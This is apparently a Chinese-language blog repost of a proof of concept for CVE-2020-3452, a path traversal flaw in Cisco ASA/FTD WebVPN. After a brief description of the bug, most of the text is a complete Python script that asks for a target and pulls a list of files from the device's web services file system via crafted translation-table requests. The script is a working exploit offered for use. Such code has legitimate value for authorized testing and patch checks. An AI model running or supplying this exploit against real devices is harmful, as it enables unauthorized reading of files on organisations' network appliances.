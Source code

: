 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JPb9wowzsS89a3b-I_D5hA)

       CVE-2020-3452 CISCO ASA 远程任意文件读取 poc

        该漏洞是由于受影响的设备处理的 HTTP 请求中的 URL 缺乏正确的输入验证所致。攻击者可以通过将包含目录遍历字符序列的特制 HTTP 请求发送到受影响的设备来利用此漏洞。成功的利用可能使攻击者可以在目标设备上查看 Web 服务文件系统内的任意文件。

当受影响的设备配置了 WebVPN 或 AnyConnect 功能时，将启用 Web 服务文件系统。此漏洞不能用于获取对 ASA 或 FTD 系统文件或基础操作系统（OS）文件的访问。

```
import requests

# Written by freakyclown for @CygentaHQ
# Cisco ASA Path Traversal
# CVE-2020-3452
# Usage: CVE-2020-3452.py {target}"
# Example: CVE-2020-3452.py 192.168.0.12"
# Requires - Requests - pip3 install requests
#
# This tool takes advantage of the above cve and attempts to
# download files as listed below, it is suggested that you make
# a working folder for the outputfiles to avoid confusion if
# attacking mutliple ASA's

# set your target
target = input("Enter target IP/Url: ")


def grabstuff():
    for file in files:
        print("trying: ", file)

        #set request parameters
        params = (
            ('type', 'mst'),
            ('textdomain', '+CSCOE+/'+file),
            ('default-language', ''),
            ('lang', '../'),
        )

        # set the response to the result of the request, inputting in target and params and ignoring ssl cert problems
        response = requests.get('https://'+target+'/+CSCOT+/translation-table', params=params, verify=False)
        # write the file to the disk
        f = open(file,"w")
        f.write(response.text) 
        f.close()



# this is a list of files available to download, more will be added in time
# if anyone has a list of ASA files, I'd be happy to add here
files = {
"sess_update.html",
"blank.html",
"noportal.html",
"portal_ce.html",
"portal.html",
"logon_custom.css",
"svc.html",
"logo.gif",
"portal_inc.lua",
"nostcaccess.html",
"session.js",
"portal.js",
"portal_custom.css",
"running.conf",
"tlbrportal_forms.js",
"logon_forms.js",
"win.js",
"portal.css",
"lced.html",
"pluginlib.js",
"useralert.html",
"ping.html",
"app_index.html",
"shshimdo_url",
"session_password.html",
"relayjar.html",
"relayocx.html",
"color_picker.js",
"color_picker.html",
"cedhelp.html",
"cedmain.html",
"cedlogon.html",
"cedportal.html",
"portal_elements.html",
"commonspawn.js",
"common.js",
"appstart.js",
"relaymonjar.html",
"relaymonocx.html",
"cedsave.html",
"tunnel_linux.jnlp",
"ask.html",
"no_svc.html",
"preview.html",
"cedf.html",
"ced.html",
"logon_redirect.html",
"logout.html",
"tunnel_mac.jnlp",
"gp-gip.html",
"auth.html",
"wrong_url.html",
"logon.html"}


# obvious thing is obvious, try the things and barf if fail
try:
    grabstuff()
except Exception as err:
    print("Something went wrong sorry")
    print(err)
```

https://github.com/cygenta/CVE-2020-3452/blob/main/CVE-2020-3452.py